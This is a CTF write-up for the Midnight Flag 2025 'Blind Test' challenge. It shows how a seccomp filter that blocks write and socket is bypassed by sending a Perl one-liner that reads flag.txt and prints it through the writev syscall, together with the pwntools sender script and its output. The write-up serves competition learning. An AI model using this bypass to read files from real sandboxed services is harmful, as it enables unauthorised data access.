 # Midnight Flag CTF 2025 : Blind Test (pwn)

## Information gathering

This challenge is a binary exploitation challenge. We have full access of the source code, as well as a local testing environment.

The code is straight forward, it first sets up a seccomp that prohibits the use of syscalls `write` and `socket` and allows everything else.

```c
    seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(socket), 0);
```

We can also extract the seccomp using [`seccomp-tools`](https://github.com/david942j/seccomp-tools/) which gives us :

```text
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x06 0xc000003e  if (A != ARCH_X86_64) goto 0008
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x03 0xffffffff  if (A != 0xffffffff) goto 0008
 0005: 0x15 0x02 0x00 0x00000001  if (A == write) goto 0008
 0006: 0x15 0x01 0x00 0x00000029  if (A == socket) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x06 0x00 0x00 0x00000000  return KILL
```

Then it takes a 3000 characters long input and calls `system` function with it.

```c
    while (1) {
        if (fgets(command, sizeof(command), stdin) == NULL) {
            break;
        }
        system(command);
    }
```

## Exploitation

As expected, whenever we send a command, we get nothing back. Looking at the different avalaible syscalls, there are a few that could performs the same task as `write` such as :
- `pwrite64` - write to a file descriptor at a given offset
- `writev` - write data into multiple buffers

But `writev` seems a lot easier because `pwrite64` can't write to stdout (which is what we want).

So our plan is now clear :
- open the flag and get the file descriptor
- read the flag
- use `writev` to execute it

However, the execution is not. We need something that allows to do all of the above and that is already installed on the debian container. And after spending a bit of time looking around, I found that perl is installed and perl does allows us to make syscalls using well ... `syscall`. As I'm not good in perl and time is of essence, I asked ChatGPT to do it for me and here's the payload that I got :

```pl
open my $fh, "<", "./flag.txt";
my $file_content = do {local $/; <$fh>};
my @buffers = ($file_content, "\n");
my $iovec = pack("L!L!L!L!L!L!",
    map { 
        my $str = $_;
        my $ptr = unpack("L!", pack("P", $str));
        my $len = length($str);
        ($ptr, $len)
    } @buffers
);
my $fd = fileno(STDOUT);
my $ret = syscall(20, $fd, $iovec, scalar(@buffers));
```

And the python script to send it automatically while getting rid of line returns :

```py
from pwn import *

r = remote("xxxx.midnightflag.fr", xxxxx)
context.log_level = 'INFO'
with open('payload.pl', 'r') as f :
    payload = f.read().strip().replace('\n', '')
    cmd = f"perl -e '{payload}'"
    r.sendline(cmd)
print(r.recv(timeout=1))
```

And voilà ! we run it and get the flag,
```text
$ py solve.py 
[+] Opening connection to localhost on port 4444: Done
/home/ravaka/ctf/midnight-2025/pwn/blindtest/solve.py:8: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.sendline(cmd)
b'MCTF{kIll3d_3xFi}\n\n'
[*] Closed connection to localhost port 4444
```